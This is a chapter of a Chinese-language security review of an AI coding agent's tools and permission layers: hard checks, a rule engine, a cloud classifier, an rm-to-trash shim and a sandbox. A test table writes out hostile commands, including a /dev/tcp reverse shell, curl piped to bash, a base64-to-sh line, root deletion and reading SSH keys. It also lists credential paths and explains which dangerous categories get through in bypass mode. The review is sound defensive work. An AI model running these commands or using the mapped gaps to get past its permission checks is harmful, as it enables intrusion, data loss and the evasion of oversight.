

# 5. 工具与权限

> 对照基准：[pi 第 5 章](../pi/05-tools-permissions.md)。pi 只有七个工具，没有权限层（「No permission popups」）；minimax-code 有 19 个内置工具，权限分三层：本地硬检查、确定性引擎、云端分类器。它最用力的一件事是**删除可恢复**。

## 5.1 工具清单

【代码事实】`agent-tools/src/desktop/builtin-defs.ts`（1,053 行）定义 19 个内置工具：

| 组 | 工具 | 位置 |
| --- | --- | --- |
| 文件 | `read`、`write`、`edit`、`grep`、`glob` | `:18,56,92,160,209` |
| 执行 | `bash` | `:109` |
| 规划与交互 | `todowrite`、`ask_user`、`request_feature_enable` | `:240,422,468` |
| 知识 | `skill`、`memory`、`web_fetch` | `:269,310,485` |
| 审查 | `code_review` | `:288` |
| 委派 | `task`、`task_append`、`mavis` | `:607,642,960` |
| 后台任务 | `task_query`、`task_output`、`task_stop` | `:668,706,714` |

`bash` 的执行仍是 pi 的：`agent-tools/src/desktop/local-pi-tools.ts:12,17` 从 `pi-coding-agent` import `createBashTool`（`:374,483` 使用）。minimax 在外面包了三层：环境净化（5.6）、rm 垫片（5.4）、超时。

### 前台超时有上界

【代码事实】`local-pi-tools.ts:589-591`：

```ts
const DEFAULT_FOREGROUND_BASH_TIMEOUT_SECONDS = 120;
const MAX_FOREGROUND_BASH_TIMEOUT_SECONDS = 300;
const FOREGROUND_SOFT_YIELD_MS = 15_000;
```

`resolveForegroundTimeout()`（`:598-604`）：参数缺失或非法时用 120，超过 300 截到 300。工具描述（`builtin-defs.ts:146,152`）把这件事告诉模型：「Foreground: default 120s, max 300s」；前台命令 15 秒后可能直接返回一个任务 id，进程不重启，转成后台任务。后台命令的上限是 `2_147_483` 秒（`:106`），实际由运行时看门狗管。

对照 pi：`bash` 的 `timeout` 参数可选，**不给就没有超时**（pi 第 5 章）。

### 给模型的删除说明

【代码事实】`builtin-defs.ts:118-119` 写在 bash 描述里：

> For file or directory deletion, use one top-level `rm -- <path> ...`; the local runtime routes it through recoverable deletion.
> Do not bypass recoverable deletion with absolute paths to deletion commands or inline scripts. If it fails, report the failure instead of falling back to permanent deletion.

【推断】这是「提示 + 机制」的双保险：提示让模型走 `rm`，机制（5.4）保证走 `rm` 就一定进回收站，绕开 `rm` 的写法（`/bin/rm`、`\rm`、`unlink`）在权限层被单独拦下来。

### MCP 工具延迟暴露：默认没开

【代码事实】`local-runtime-v2/src/service/turn-system/agent-host/assembly/local-turn-tool-catalog.ts` 的 `resolveLocalMcpDisclosureOptions()`（`:480-527`）默认 `enabled: true`、`thresholdPct 0.15`、`minDeferCount 1`、`topK 5`（最大 20）、`maxSchemaTextLen 4096`，可以用 `MAVIS_MCP_TOOL_SEARCH_*` 环境变量改。但 `planMcpDisclosure()`（`agent-tools/src/mcp-disclosure/plan.ts:31-74`）还要求**当前模型在白名单里**，白名单默认是空数组（`local-turn-tool-catalog.ts:530-537`）。

满足条件时：只看用户配置的 MCP 工具（`source === 'configured'`），按 JSON 字符数 / 4 估 schema 的 token（`plan.ts:25-29`），超过窗口的 15% 就把它们收起来，换成 `tool_search` 和 `mcp_invoke` 两个工具（`buildLocalTurnToolCatalog`）。

【推断】机制完整、默认关闭，和第 4 章那条 M3 90% 线一样，是「写好了，等远端或配置打开」的状态。

### 子 agent 的工具上限

【代码事实】`local-turn-tool-catalog.ts:452-454`：

```ts
const TASK_CONTROL_TOOL_NAMES = new Set(['task_query', 'task_output', 'task_stop']);
const DELEGATION_TOOL_NAMES = new Set(['task', 'task_append']);
const TASK_CHILD_BLOCKED_TOOL_NAMES = new Set([...DELEGATION_TOOL_NAMES, 'todowrite', 'ask_user']);
```

子任务拿不到委派、todo、向用户提问这几样（第 6 章）。`filterLocalTurnCapabilityInventory()`（`:104-178`）按三道过滤：模型能力（不支持图片就去掉相关工具）、agent 选择器、角色上限。

### Plan 模式：唯一可写的是计划文件

【代码事实】`local-runtime-v2/src/service/plan/tool-guard.ts`（82 行）：Plan 模式下 `write` / `edit` 只能写 `plan.canonicalPath` 这一个文件（`:33-44`），`append`、`apply_patch`、`multiedit`、`notebook_edit` 一律拒绝，因为「this tool cannot be limited to the canonical Plan file」（`:46-60`）。拒绝走 `before_tool_call` 的 `{ block: true, reason }`。

【推断】它没有拦 `bash`。Plan 模式能不能用 `bash` 写文件，由权限层照常判，不是 Plan 模式自己的事。

## 5.2 权限模式

【代码事实】`agent-modules/permission/src/ask-policy.ts:17-54`，UI 模式 → 内部策略：

| PermissionMode | 内部策略 | UI 名称 |
| --- | --- | --- |
| `default`、`acceptEdits` | `on-request` | Ask |
| `auto` | `on-request-llm` | Smart approval（「cloud LLM in the loop」） |
| `bypassPermissions`、`off` | `never` | Always allow |
| `dontAsk` | `deny` | 没有预授权的一律拒绝 |

默认是 `auto`（`config/src/config.ts:1709`）。`acceptEdits` 只是 `default` 加一组预置的 edit/write 允许规则（`:44-46` 注释）。

`off` 比 `bypassPermissions` 更彻底：【代码事实】`local-runtime/src/permissions/facade.ts:549-561`，`off` 时**整条管线跳过**，直接 allow——但命令里有 `rm`（POSIX）或删除类命令（Windows）时除外，它们仍要走下去，好被改写成可恢复删除。

### headless 不接受 ask

【代码事实】`tui/src/headless/invocation.ts:113-123`：`mcode exec --permission` 可选 `smart`（默认）/ `full` / `off`；传 `ask` 直接报错「requires an interactive host」。`tui/src/cli/run-exec-command.ts:128-139` 把三者映射到 `auto` / `bypassPermissions` / `off`。

运行中如果权限层还是给出了 ask，【代码事实】`tui/src/headless/runner.ts:586-600` 把「等用户」转成失败，错误码 `INTERACTION_NOT_AVAILABLE`；恢复一个会话前，`:602-623` 先查它有没有挂着的权限请求或问卷，有就拒绝在 headless 里继续。

【推断】`smart` 的分类器只在托管运行时（登录了 MiniMax 账号）才调（5.3）。BYOK、不登录跑 `mcode exec`，分类器被跳过，一切未命中规则的命令都落到 ask，再被转成失败——在这种配置下 `smart` 的行为接近 `dontAsk`。

## 5.3 判定顺序



*图 5-1 一次工具调用的权限判定（`facade.ts:536-900`）*

### 第一层：本地硬检查

【代码事实】`local-runtime/src/permissions/checkers.ts`（1,232 行）的 `evaluateLocalPermissionCheck()`（`:688-711`）按顺序查：bypass-immune → Windows 路径安全 → policy → bash → 文件工具。三种结果（`:10-27` 的类型注释，`facade.ts:632-660` 的注释）：

| 类别 | 内容 | 处理 |
| --- | --- | --- |
| `bypass-immune` | UNC / SMB 网络共享；对 `/` 或 `~` 的递归删除（含 `bash -c "…"` 嵌套 4 层、`$IFS` 拼接；`isRootRecursiveDelete`，`:1124-1153`） | **任何模式都 deny**，`denySource: 'safety-immune'`（`facade.ts:653-660`） |
| `policy` | 敏感凭据路径：`~/.ssh`、`~/.aws`、`~/.config/gcloud`、`~/.kube/config`、`~/.docker/config.json`、`~/.gnupg`、`~/.npmrc`、`~/.netrc`、`~/.git-credentials`、`.env*`、`id_*`、`*.key/pem/p12/pfx`（`containsSensitiveLocalPath`，`:1089-1110`）；`web_fetch`、`website_deploy` 总要审批（`:749-780`） | bypass 下跳过；default / auto 下降为 ask |
| `ask` | curl 管道到 shell、命令替换、不设深度的全盘扫描、递归 rm（`:802-830`）；文件工具的路径逃出工作区（`:832-847`） | 升级为 ask |

【推断】工作区边界是 **ask**，不是 deny。agent 写工作区外的文件，用户点同意就行；`bypassPermissions` 下连问都不问。

### 第二层：确定性引擎

【代码事实】`agent-modules/permission/src/engine.ts`（610 行）的三步（`:186-201`）：

1. 拒绝检查（不受 bypass 影响）：deny 规则 → ask 规则 → 工具自检 `checkPermissions` → 工具返回 deny → 需要用户交互 → 内容级 ask 规则 → 安全检查；
2. 允许检查：bypass → allow；allow 规则 → allow；
3. 兜底：ask。

bash 的工具自检是这一层最重的部分：`tools/bash-permission.ts`（1,520 行）+ `classifier/dangerous-patterns.ts`（1,662 行），整个 `tools/` 加 `classifier/` 有 12,226 行。`evaluateBashStatic()` 按层走：

| 层 | 步骤 | 位置 |
| --- | --- | --- |
| 公共层（所有模式） | 1 用户 deny 规则 → 2 用户 ask 规则 → 3 HARD 最终拒绝 → 3.5 慢命令 | `:1134-1216` |
| bypass 出口 | rm 改写；含删除动词的命令拒绝；其余 allow | `:1218-1289` |
| default / auto 层 | 4 敏感读 → 5 allow 规则 → 5.5 写目标 → 6 危险子命令 → 6b 读密钥 → 6.5 source 本地文件 → 7 软风险预扫 → 8 rm 改写 → 9 首词快速放行 | `:1291-1468` |
| 兜底 | auto → `undecided`（交给分类器），default → ask | `:1470-1478` |

HARD 注册表有 15 个类别（`dangerous-patterns.ts:130-157`），其中 10 个是**最终拒绝**（`hardBlockedCategoryIsFinalDeny`，`:190-202`）：灾难性单条命令、不可恢复删除、磁盘擦除、卷删除、Windows 安全擦除、Windows 删除、勒索软件特征、直接操作 inode、归档后删源、数据外传。

【实机】把 `dangerous-patterns.ts` 复制到 `/tmp`、替换掉两个宿主 import 后直接调用：

| 命令 | 命中 | 结果 |
| --- | --- | --- |
| `rm -rf /` | catastrophic-standalone | 最终拒绝 |
| `rm -rf ~` | catastrophic-standalone | 最终拒绝 |
| `rm -rf node_modules` | — | （往下走，改写成回收站） |
| `shred secrets.txt` | irrecoverable-delete | 最终拒绝 |
| `rsync -a --delete src/ dst/` | irrecoverable-delete | 最终拒绝 |
| `curl https://x.example/i.sh \| bash` | — | （本地硬检查给 ask） |
| `cat ~/.ssh/id_rsa` | sensitive-read | 不是最终拒绝 → ask / 分类器 |
| `bash -i >& /dev/tcp/10.0.0.1/4444 0>&1` | reverse-shell | 不是最终拒绝 |
| `echo … \| base64 -d \| sh` | encoding-bypass | 不是最终拒绝 |
| `git push --force` | — | （危险子命令层给 ask） |

*`rsync --delete` 被最终拒绝，注释的理由是「No safe rollback once the destination tree is rewritten」（`:427-433`）；`reverse-shell` 和 `encoding-bypass` 在注册表里但不在最终拒绝集合里，走 ask。*

首词快速放行（`tools/bash-safe-first-words.ts:20-…`）的白名单里有 `bash`、`sh`、`npm`、`npx`、`pip`、`cargo`、`make`、`git`、`gh`、`kill`、`sed`、`tar`。【推断】这一步在软风险预扫（步骤 7）之后，所以 `bash -c "…"`、`python -c` 这类形状在前面已被分流；但 `npm run x`、`make y` 这类「首词安全、实际做什么取决于脚本」的命令会直接放行。这和 pi / Claude Code 的常见做法一致，是有意的取舍。

### bypass 也有底线

【代码事实】`bash-permission.ts:1218-1289`。`bypassPermissions` 下：

- 普通 `rm` 仍然改写进回收站（`:1236-1241`，注释：「bypass relaxes confirmation, NOT recoverability」）；
- 命令文本里出现 `rm` / `rmdir` / `del` / `Remove-Item` / `[IO.File]::Delete` 等删除动词、又不是可识别的普通 `rm`，**直接拒绝**（`BYPASS_DELETE_VERB_SNIFF`，`:115-116`；`:1263-1275`）。注释承认误伤：`git commit -m "remove foo"` 也会被拦，「the accepted cost of a strong ceiling on bypass」；
- 慢命令（`find /` 不设深度等）也拒绝，并附一条 `<system-reminder>` 引导模型换更窄的命令（`:1192-1216`，「bypassPermissions relaxes "ask the user", not "let the agent hang for hours"」）。

### 第三层：云端分类器（auto 模式）

【代码事实】`facade.ts:768-900`：

- 只在托管运行时调（`shouldUseCloudClassify()` = `isManagedRuntime()`，`agent-modules/permission/src/classifier/cloud-classify-client.ts:61-63`）；否则记一条 `skipped` 日志，直接 ask（`facade.ts:813-820`）；
- 超时默认 60 秒（`:419`）；
- 结果映射：`allow` → allow；`block`、`confirm`、`timeout`、任何异常 → **ask**（`:838-899`）。

分类器**永远不会 deny**。最差是退回到问用户。

发出去的内容（`classifyViaCloud`，`:1016-1035`）：

- 工具名；
- 序列化后的输入：`bash` 发完整命令；文件类工具只发路径，不发内容（`serializeToolInput`，`:1367-1380`）；其他工具发整个 JSON；
- 平台、home 目录、工作区根、agent 名、会话 id；
- 对话上下文：最近 3 条用户消息（排除权限回复）+ 最近 5 条消息（`buildConversationContext`，`:1248-1276`）。渲染时用户消息保留首尾各 250 字符，其他截到 200 字符，工具调用压成 `tool:<name> args=… result=…`（`agent-modules/permission/src/conversation-renderer.ts:34-36,73-99`）。

【推断】默认模式就是 `auto`，所以登录用户的每一条「规则没判定」的命令，连同截断后的近几轮对话，都会发到云端。这是一个隐私面，和 pi 第 9 章 S4 `/share` 的性质不同：后者要用户主动触发，这里是默认路径。docs 的遥测说明（`docs/telemetry.md`）讲的是遥测，不覆盖这一条。

## 5.4 删除走回收站

【代码事实】`local-runtime/src/infra/ensure-rm-shim.ts` 头注释（`:1-32`）说明了为什么用 PATH 垫片而不是改写命令：

> Rewriting command text can only honour it for shapes a parser recognises, and that set is never complete: `xargs rm`, `find … -exec rm {} \;`, or an `rm` inside a shell script the agent just wrote all slip through … PATH resolution has no such blind spot.

垫片本身（`:47-63`）只做一件事：找同级 `bin/mavis-trash`，找不到就报错退出，「refusing to fall back to an unrecoverable delete」；找到就 `exec` 过去，保留它的退出码和 stderr。

三条约束：

| 约束 | 实现 |
| --- | --- |
| 只影响 agent | 放在 `<dataDir>/shims`，只通过 `BashEnvPolicy.prependPath` 进 agent 的 bash；不是 `<dataDir>/bin`，因为后者会被追加到用户的 `~/.zshrc`（`:19-25`） |
| 失败即关闭 | `spawnPreflight`（`:82-110`）：垫片缺失或不可执行就先原地重建，重建也失败就**拒绝启动 bash**：「Refusing to start bash, because deletes would bypass the trash and become unrecoverable.」 |
| 绕行的写法单独拦 | `/bin/rm`、`\rm`、`busybox rm`、`command rm`、`env rm`、`rmdir`、`unlink`、`find -delete`（`dangerous-patterns.ts:1128-1145`）；`isRmCommand()` 遇到这些形状返回 false，不走安全改写（`bash-permission.ts:228-260`） |

Windows 跳过垫片（PowerShell 的 `rm` 是 `Remove-Item` 的别名，不走 PATH），改走宿主侧的删除改写；无法识别的 Windows 删除命令归入 HARD `windows-delete`，最终拒绝（`dangerous-patterns.ts:139-144`）。

【推断】这是本仓库里「机制优先于提示」最清楚的一例：可恢复删除不靠模型配合，不靠解析器识别所有形状，而是靠进程查找路径；唯一的出口（绝对路径）被权限层单独兜住。

## 5.5 沙箱：有，默认关

【代码事实】

- `config/src/sandbox-settings.ts:13-16`：默认 `{ enabled: false, filesystemMode: 'full_access' }`；四档 `read_only` / `workspace_write` / `delete_guard` / `full_access`，`full_access` 被归一成「没有沙箱」（`:19-25`）。
- `local-runtime-v2/src/service/sandbox/initialize.ts:35-40`：只注册一个后端 `srt-macos`，平台 `darwin`。
- `third_party/sandbox-runtime` 是 Anthropic `sandbox-runtime` v0.0.74 的 fork（`upstream.json`），钉在 `0.0.74-mcode.2`。README 列出本地改动：保留安全服务控制、unlink 范围、网络默认拒绝、净化过的基础环境、没有代理时也保护文件；去掉 Bun 分支。`native-integrity.json` 存 vendor 二进制的 sha256。
- fork 里有 Linux 和 Windows 的代码（`src/sandbox/` 下），产品只接了 macOS。`docs/verification.md:107` 的沙箱探针也只在 macOS 上跑；第 2 章的 `test:sandbox` 闸门只在 darwin 执行。

【推断】Linux 用户打开沙箱设置也不会生效——没有后端可选。默认关闭意味着 5.3 的权限层是唯一一道防线，而它对工作区边界只给 ask。

## 5.6 子进程环境

【代码事实】`agent-core/src/bash-subprocess-env.ts` 头注释（`:1-26`）定义两层：

| 层 | 做什么 | 何时 |
| --- | --- | --- |
| A | 去掉运行时边界键：会话 id、父进程身份、profile / dataDir / 端口、安全开关 | **总是**，没有开关 |
| B | 去掉 provider 与集成凭据：`MCODE_PROVIDER_API_KEY`、`ANTHROPIC_*`、`OPENAI_API_KEY`、OTLP 头（`:75-…`） | `off`（交互默认，「CC parity」）/ `scrub` / `strict`（按模式匹配） |

`resolveBashEnvPolicy()`（`:166-188`）：`MAVIS_BASH_ENV_SANITIZE` 优先；否则 `CI` 或 `GITHUB_ACTIONS` 为真时 `scrub`，其余 `off`。`GH_TOKEN`、`GITHUB_TOKEN`、`NPM_TOKEN` **故意不在** scrub 名单里（`:20,73`）。函数不改调用方传入的对象。

【代码事实】头注释写的是「`scrub` (auto in CI / non-interactive)」，但代码只看 CI 标记；全仓调用 `resolveBashEnvPolicy` 的地方（`ensure-rm-shim.ts:86,89`、`sandbox/initialize.ts:55`）都没有传 `mode`。【推断】在开发机上跑 `mcode exec`（不在 CI 里），Layer B 仍是 `off`，模型拿到的 bash 能看到用户 shell 里所有的 API key。

对照 pi 第 9 章 S3（凭据对命令可见）：minimax 在 CI 里修了，交互和本地 headless 没修，且注释写明是有意与 Claude Code 保持一致。

## 5.7 用户的 `!`：三道都不过

【代码事实】TUI 里 `!` 开头的输入（`tui/src/tui/commands/bash-input.ts`）由 `tui/src/host/bash-command.ts` 的 `executeTuiBash()` 执行：

```ts
const { createLocalBashOperations } = await import('@earendil-works/pi-coding-agent');  // :17
const operations = createLocalBashOperations({ parentDeathGuard: true });               // :18
const env = { ...process.env };                                                         // :19
stripRuntimeBoundaryKeysFrom(env, 'agent-runtime');                                      // :20
```

- 只做 Layer A；没有 Layer B，没有 `prependPath`，所以**没有 rm 垫片**；
- 不经过权限层。

输出回到上下文时（`tui/src/tui/controller/product/bash-flow.ts:53-59`）：上限 64K 字符（`:6-7`），`& < >` 转义后包进 `<user-provided-context>`。`!!` 开头的不进上下文。

【推断】用户亲手敲的命令不过权限是合理的；不过 rm 垫片则意味着「每一次删除都可恢复」这条承诺只对 agent 成立。和 pi、Step-Code 一样有 `!` 的不对称（pi 第 9 章 S2），区别是 minimax 至少把输出转义了，防止输出里的标签闭合 `<user-provided-context>`。

## 5.8 继承与新增的缺口

| 缺口 | 证据 | 后果 |
| --- | --- | --- |
| auto 模式默认把命令和近几轮对话发云端 | `facade.ts:813-856,1248-1276`；`config.ts:1709` | 登录用户的命令文本、截断的对话离开本机 |
| BYOK + headless smart 会退化 | `cloud-classify-client.ts:61-63`；`runner.ts:586-600` | 不登录时 smart ≈ dontAsk，未命中规则的命令直接失败 |
| 沙箱默认关，只有 macOS 后端 | `sandbox-settings.ts:13-16`；`initialize.ts:35-40` | Linux 上没有内核级隔离 |
| 工作区边界只是 ask | `checkers.ts:832-847` | bypass 下可写工作区外 |
| 交互与本地 headless 不净化环境 | `bash-subprocess-env.ts:166-188` | 模型可读到 shell 里的 API key（pi S3） |
| 注释与代码不一致 | `bash-subprocess-env.ts:17` 说「non-interactive」自动 scrub，代码只认 CI | 读注释的人会以为 `mcode exec` 已净化 |
| `!` 不过垫片 | `bash-command.ts:17-20` | 用户的 `!rm` 不可恢复（pi S2） |
| `reverse-shell` / `encoding-bypass` 不是最终拒绝 | `dangerous-patterns.ts:190-202` | bypass 下由删除嗅探之外的规则放行 |
| MCP 延迟暴露默认关 | `local-turn-tool-catalog.ts:530-537` | 工具多时 schema 全量进上下文 |

【推断】`reverse-shell` 一行要看具体路径：bypass 模式只在公共层查最终拒绝（步骤 3），不在集合里的类别不会在 bypass 下被拦。这是我从代码顺序推出来的，没有跑端到端。

## 5.9 本章结论

- 19 个内置工具；`bash` 仍是 pi 的实现，外面套了超时上界（120 / 300 秒）、环境净化、rm 垫片。
- 权限三层：本地硬检查（只有网络共享和删根 / 删家目录是任何模式都拒）→ 确定性引擎（bash 部分 1.2 万行，15 类 HARD 里 10 类最终拒绝）→ 云端分类器（默认开，只会放行或退回 ask，永不拒绝）。
- 删除可恢复是执行层的承诺：PATH 垫片 + 失败即关闭 + 绕行写法单独拦；bypass 放松确认，不放松可恢复。
- 沙箱、环境净化、MCP 延迟暴露三项都写好了，默认都没开（或只在 CI 开）。
- 用户 `!` 不过权限也不过垫片；headless 拒绝 ask，不登录时 smart 会退化。
